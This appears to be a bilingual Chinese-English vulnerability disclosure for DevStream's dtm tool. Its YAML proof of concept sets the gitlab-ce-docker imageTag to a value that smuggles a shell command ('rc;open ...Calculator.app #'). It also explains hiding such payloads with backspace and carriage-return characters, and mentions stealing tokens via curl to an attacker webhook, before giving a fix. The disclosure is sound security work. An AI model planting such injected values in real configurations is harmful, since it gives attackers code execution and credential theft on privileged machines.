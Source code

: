 ## POC/proof of code

```yaml
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"

```

利用方法为 gitlab ce image 没用启动对应 Container 的时候，执行 `dtm apply -f this.yaml -y` 之后弹出计算器

Exploiting this by executing `dtm apply -f this.yaml -y` and open calc process when gitlab ce image has no container running.

imageTag 无过滤内容，可用退格和 rewind （ascii 同理）以及 # 注释符号搭配使用，对用户进行欺骗

ImageTag filters nothing. Using backspace `\b` or rewind `\r` (ascii also works)with comment `#` cheats privileged user to execute.

## 攻击向量与场景/Attack vector and scenario

**首先配置文件本身并没有被项目做权限检查存在可以被其他平级乃至是低权限用户修改的可能。因此提供了一种从文本写入到命令执行的攻击向量。**

**Above all, the config file premission is loose and no check.It's possible for user who has same or lower privilege to modify config.There provides an attack vector from file writing to command execution.**

其次，项目多处使用了 `docker` `kubectl` 。这类需要 root 或者 docker 组的权限的用户进行执行。**因此往往 dtm 是被高权限使用的。**

Then, Project uses `docker` `kubectl` which needs root or docker group to exec in many packages. **So, `dtm` is always using with high-privileged user.**


为了使得利用场景更加直观，考虑如下命令序列

There is a command-sequence for a more perceptual understanding of scenario mentioned above.

```shell
su normal_user
vim ce-config.yml #the owner of this file shall be normal_user
ls -al | grep ce-config.yml
sudo dtm apply -f ce-config.yml
```

由于项目的目的是构造整体的生产环境工具链，也同样聚集了多数最佳实践的配置，同时又支持环境变量或者其他文件读取配置，**所以用户可能并不会对工具配置文件本身亲力亲为。**

Because of the aim of project is completion of production environment toolchains and contains more config with best efforts. Project also allows environment vars or other files to "know" local config. **So user may not put more attention on config files of  tools.**

也存在一种场景，假设**用户配置文件可以通过远程分发和维护**的时候，例如 nacos 统一配置全公司的技术栈和工具链，通过这种配置文件的污染，（能够进行污染的时候，部署的服务和CICD服务可能均已遭到不测），甚至可以导致员工的办公区电脑被入侵。

Another attack scenario is remote delivery and maintenance of users' config file, such as using Nacos unify toolchains and techniques in whole company. Polluting this config file will make computers of developer in office network in danger. (But The Deployment servers and CICD Services is got hacked at that time)

当然命令这里不只是 Open 计算器，由于ImageTag中没有多数的过滤，所以我们几乎可以做任何操作，包括但不限于下载木马文件进行执行，并且由于教程中含有通过环境变量的值的方法传入各种 Token 所以也存在使用 curl 或者其他方法向黑客的恶意 Webhook 服务器发送带有生产或是测试环境的相关的配置与口令从而造成更大的危害。

Not only Calc process opening there, Because of loose filter in ImageTag , We can do everything not only downloading trojan but also stealing tokens and other config in prod or testing via command like `curl` callback to hackers webhook server.

因此，该 ISSUE 具有一定的对使用者的欺骗性质，并且在权限提升和横向渗透中具有利用空间。

Consequently, the issue has potentiality of being exploited in order to achieve privilege escalation and lateral movement through the ignorance of user,
providing a primitive with capability of converting file-written to code execution.

## 缓解与修复/Mitigation and Fix

可以使用 go client for docker engine 实现。

It is believed that using docker client instead of concat command string is a more safe and elegant implementation.

如果非要使用 `exec.Command` 可以将第一位二进制参数设置为 `docker` 替换  `sh -c` 便会大大降低被注入额外命令的风险

Even if considering keeping `exec.Command`, u should using `docker` to deprecate `sh -c` and put parameters to `args` as well
so that the risk of causing an command injection will be considerably decreased.


